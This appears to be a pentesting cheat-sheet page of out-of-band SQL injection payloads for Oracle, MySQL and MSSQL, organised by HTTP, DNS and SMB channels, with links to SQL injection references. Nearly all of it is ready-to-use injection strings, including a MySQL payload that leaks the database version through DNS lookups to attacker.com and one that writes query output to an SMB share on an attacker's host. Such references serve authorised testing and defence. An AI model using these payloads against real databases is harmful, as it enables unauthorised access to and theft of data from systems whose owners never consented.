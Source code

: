 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - webapp-pentesting
  - server-side-attack
  - blind-sql-injection
---
```

# Out-of-Band Payloads

## HTTP Requests

### Oracle

```
SELECT UTL_HTTP.REQUEST('http://localhost') FROM dual;
```

## DNS Requests

### MySQL

```
SELECT LOAD_FILE(CONCAT('\\\\foo.',(SELECT MID(version(),1,1)),'.attacker.com\\'));
```

### Oracle

```
SELECT UTL_INADDR.get_host_address('localhost.com') FROM dual;
```

## SMB Requests

### MySQL

```
OR 1=1 INTO OUTFILE '\\\\<attacker_IP>\\<share_name>\\output.txt
```

### MSSQL

```
OR 1=1; EXEC xp_dirtree 'C:\your_target_directory', 1, 1;-- -
```

---
## References

### WebSec

- [WebSec: SQL Injection Knowledge Base](https://www.websec.ca/kb/sql_injection)

### Osanda

- [Osanda: MySQL Out-of-Band Hacking](https://osandamalith.com/2017/02/03/mysql-out-of-band-hacking/)